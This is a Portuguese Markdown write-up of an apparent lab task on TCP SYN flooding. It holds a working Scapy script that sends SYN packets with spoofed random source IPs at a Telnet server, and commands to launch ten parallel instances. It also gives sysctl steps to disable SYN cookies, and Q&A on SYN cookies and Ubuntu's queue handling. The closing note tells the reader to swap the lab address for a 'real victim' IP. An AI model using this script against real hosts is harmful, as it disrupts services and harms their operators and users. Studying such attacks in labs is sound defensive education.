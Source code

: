 Aqui está o conteúdo completo formatado em **Markdown** para você copiar e colocar diretamente no GitHub:

---

# **Tarefa 1 - Ataque SYN Flood com Python**

## **1. Modificações no Código `tarefa1.py`**
```python
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

# Configurações do ataque
ip = IP(dst="10.9.0.5")      # IP da vítima (substitua pelo IP correto)
tcp = TCP(dport=23, flags='S') # Porta 23 (Telnet)
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32)))  # IP de origem aleatório
    pkt[TCP].sport = getrandbits(16)                # Porta de origem aleatória
    pkt[TCP].seq = getrandbits(32)                  # Número de sequência aleatório
    send(pkt, verbose=0)
```

### **O que o código faz?**
- Gera pacotes TCP SYN falsos com:
  - **IPs de origem aleatórios** (para burlar filtros).
  - **Portas de origem aleatórias**.
  - **Números de sequência aleatórios**.
- Alvo: Servidor Telnet da vítima (`porta 23`).

---

## **2. Passos para Execução do Ataque**

### **Pré-requisitos**
```bash
# Instalar Scapy (Python)
sudo apt update
sudo apt install python3-scapy

# Configurar o kernel (desativar defesas)
sudo sysctl -w net.ipv4.tcp_syncookies=0       # Desliga SYN Cookies
sudo sysctl -w net.ipv4.tcp_max_syn_backlog=80 # Reduz fila SYN
sudo ip tcp_metrics flush                       # Limpa conexões antigas
```

### **Executar o Ataque**
```bash
# Iniciar múltiplas instâncias (aumenta eficácia)
for i in {1..10}; do python3 tarefa1.py & done

# Parar o ataque (kill todos os processos Python)
pkill -f "python3 tarefa1.py"
```

---

## **3. Perguntas e Respostas**

### **1. O ataque funcionou na primeira tentativa?**
**Não**, devido aos mecanismos de proteção do Ubuntu:
- **SYN Cookies** (ativado por padrão) → Desative com `sysctl -w net.ipv4.tcp_syncookies=0`.
- **Fila de conexões prioriza IPs conhecidos** → Limpe com `ip tcp_metrics flush`.
- **Fila SYN muito grande** → Reduza com `sysctl -w net.ipv4.tcp_max_syn_backlog=80`.

### **2. Como o SYN Cookies funciona?**
- **Quando ativado**:
  - O servidor **não armazena** conexões semiabertas (`SYN_RECV`).
  - Envia um **cookie** (hash do IP/porta/seq) no SYN+ACK.
  - Reconstrói a conexão apenas se o cliente responder com o cookie válido.
- **Objetivo**: Mitigar ataques de inundação SYN sem consumir recursos.

### **3. Mecanismo do Ubuntu sem SYN Cookies**
- **25% da fila SYN** é reservada para IPs que já se conectaram antes.
- **Comando para verificar**:
  ```bash
  ip tcp_metrics show  # Lista IPs "conhecidos"
  ip tcp_metrics flush # Limpa a lista
  ```
- **Impacto no ataque**: IPs aleatórios só ocupam **75% da fila**.

---

## **4. Comandos Úteis para Depuração**
| Comando | Descrição |
|---------|-----------|
| `netstat -tna \| grep SYN_RECV \| wc -l` | Conta conexões semiabertas |
| `ss -n state syn-recv sport = 23 \| wc -l` | Conexões SYN_RECV na porta 23 |
| `sysctl net.ipv4.tcp_synack_retries` | Número de retransmissões SYN+ACK |
| `sudo tcpdump -i eth0 'tcp port 23'` | Monitora pacotes Telnet em tempo real |

---

## **5. Referências**
- [RFC 4987 - SYN Flooding Attacks](https://tools.ietf.org/html/rfc4987)
- [Linux Kernel Documentation - TCP SYN Cookies](https://www.kernel.org/doc/html/latest/networking/ip-sysctl.html)

---

**Nota**: Substitua `10.9.0.5` pelo IP real da vítima.  
**Dica**: Use `&` para rodar o script em segundo plano (ex: `python3 tarefa1.py &`).
